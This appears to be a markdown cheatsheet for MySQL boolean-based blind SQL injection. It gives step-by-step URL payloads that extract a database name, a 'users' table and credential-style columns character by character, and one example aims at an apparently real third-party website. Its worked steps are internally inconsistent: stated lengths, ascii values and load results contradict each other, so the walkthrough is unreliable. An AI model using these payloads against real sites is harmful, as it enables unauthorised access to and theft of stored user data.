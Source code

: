 # MySQL Boolean Based Blind SQL Injection Cheatsheet

## Identifying the vulnerability

Normally in Blind SQLi, you can't really see the output of queries you enter. In this case, the only way to verify about the vulnerability, is by looking if the website loads successfuly or not/partially.

Use the following queries to identify the website behaviour:  

```http://domain.com/index.php?id=1' AND 4570=4570 AND 'ZeoB'='ZeoB```  
Page fully loads successfuly.  

```http://www.nttbworld.com/tour-details.php?id=65' AND 4570=4570 AND 'ZeoB'='ZeoBFalse```  
Page will partially load or it will not even load.  

## Retrieving database

**Retrieving the length of database name**

The given query will verify if database has 14 characters.  
```http://domain.com/index.php?id=1' AND (length(database())) = 15 --+```  
If website partially loads or doesn't load, it means that database is not 10 characters long.

The given query will verify if database has 9 characters.  
```http://domain.com/index.php?id=1' AND (length(database())) = 11 --+```  
Page loads successfully. Database name is 11 characters long.

**Retrieving the database name**

This method is slow, because we have to hit-or-miss for every character of the database. Let's take a look below. The below table, will help us convert ascii to string.  

![ascii_table](https://www.asciitable.com/asciifull.gif)

The given query will define is the first character of database name is 111 (o)  
```http://domain.com/index.php?id=1' AND (ascii(substr((select database()),1,1))) > 110 --+```  
Website doesn't load fully, so our condition is incorrect, let's try another ascii.  

The given query will define is the first character of database name is 110 (n)  
```http://domain.com/index.php?id=1' AND (ascii(substr((select database()),1,1))) > 109 --+```  
Website loads fully, this means the first character of database is **n**.

Continue enumerate the second character of database name.  

The given query will define is the first character of database name is 98 (h)  
```http://domain.com/index.php?id=1' AND (ascii(substr((select database()),2,1))) > 97 --+```  
Website doesn't load fully, so our condition is incorrect, let's try another ascii.  


The given query will define is the first character of database name is 116 (t)  
```http://domain.com/index.php?id=1' AND (ascii(substr((select database()),2,1))) > 115 --+```  
Website loads fully, this means the second character of database is **t**.

Continue doing the same process over and over until you find all 11 characters.  

1st character: 110 -> **n**  
2nd character: 116 -> **t**  
3rd character: 116 -> **t**  
4th character: 104 -> **h**  
5th character: 119 -> **w**  
6th character: 102 -> **f**  
7th character: 105 -> **i**  
8th character: 57 -> **9**  
9th character: 95 -> _  
10th character: 100 -> **d**  
11th character: 98 -> **b**  

All 11 charachters combined together will be the database name: **ntthwfi9_db**

**Retrieving length of table name**

Given query will test the condition whether the length of string for the first table is equal than 4 or not.  
```' AND (length((select table_name from information_schema.tables where table_schema=database() limit 0,1))) = 4 --+```

The website didn't load properly, so let's try if the length is 5 characters:  
```' AND (length((select table_name from information_schema.tables where table_schema=database() limit 0,1))) = 5 --+```  
The website loads fully, so the length of the first table name is 5.  

**NOTE:** You can enumerate the others table too, by changing the number value in this part of payload: (limit **0**,1). Simply replace it with another number. For example, let's see if 4th column has 6 characters:  
```' AND (length((select table_name from information_schema.tables where table_schema=database() limit 3,1))) = 6 --+```  

**Retrieving name of table name**  

On this case, I will enumerate the the first column.
Let's find the first character of table:  

```' AND (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1) ,1,1))) > 108 --+```  
Website doesn't load properly, false response.  

```' AND (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1) ,1,1))) > 114 --+```  
Website doesn't load properly, false response.  

```' AND (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1) ,1,1))) > 116 --+```  
Website fully loads, it means the first character is ascii 117 (u).  


Let's find the last character of table (5th character):  

```' AND (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 4,1) ,1,1))) > 96 --+```  
Website doesn't load properly, false response.  

```' AND (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 4,1) ,1,1))) > 105 --+```  
Website doesn't load properly, false response.  

```' AND (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 4,1) ,1,1))) > 114 --+```  
Website fully loads, it means the first character is ascii 115 (s).  

Keep doing the same process for the other characters, until you find all the characters.  

1st character: 110 -> **u**  
2nd character: 115 -> **s**  
3rd character: 101 -> **e**  
4th character: 114 -> **r**  
5th character: 115 -> **s**  

All 5 charachters combined together will be the first table name: **users**

**Retrieve length of column name**  

Using the same method as before, enumerate the length of column name.

Given below query will test for string length is equal to 6 or not:  
```' AND (length((select username from users limit 0,1))) = 6 --+```  
Website doesn't load properly, column is not 6 characters long.  

Given below query will test for string length is equal to 4 or not:  
```' AND (length((select username from users limit 0,1))) = 4 --+```  
Website fully loads, column is 6 characters long.  

Using the same method, you can also enumerate other columns.

Enumerate the length of second column if it is 6 or not:  
```' AND (length((select username from users limit 1,1))) = 6 --+```  

Enumerate the length of third column if it is 5 or not:  
```' AND (length((select username from users limit 2,1))) = 5 --+```  

And so on...

**Retrieve column name**

Since we know the length of column name is 4, let's find out the characters one by one.

Given below query will test if the first character of the first column name is ascii 101 (e):  
```' AND (ascii(substr((select username from users limit 0,1) ,1,1))) > 100 --+```  
Website doesn't load properly, first char is not **e**.  

Given below query will test if the first character of the first column name is ascii 112 (p):  
``' AND (ascii(substr((select username from users limit 0,1) ,1,1))) > 111 --+``  
Website doesn't load properly, first char is **p**.  

Given below query will test if the second character of the first column name is ascii 97 (a):  
``' AND (ascii(substr((select username from users limit 1,1) ,1,1))) > 96 --+``  
Website doesn't load properly, second char is **a**.  

Given below query will test if the third character of the first column name is ascii 115 (s):  
``' AND (ascii(substr((select username from users limit 2,1) ,1,1))) > 114 --+``  
Website doesn't load properly, third char is **s**.  

Given below query will test if the fourth character of the first column name is ascii 115 (s):  
``' AND (ascii(substr((select username from users limit 3,1) ,1,1))) > 114 --+``  
Website doesn't load properly, fourth char is **s**.  

1st character: 110 -> **p**  
2nd character: 97 -> **a**  
3rd character: 115 -> **s**  
4th character: 115 -> **s**  

All 4 charachters combined together will be the column table name: **pass**

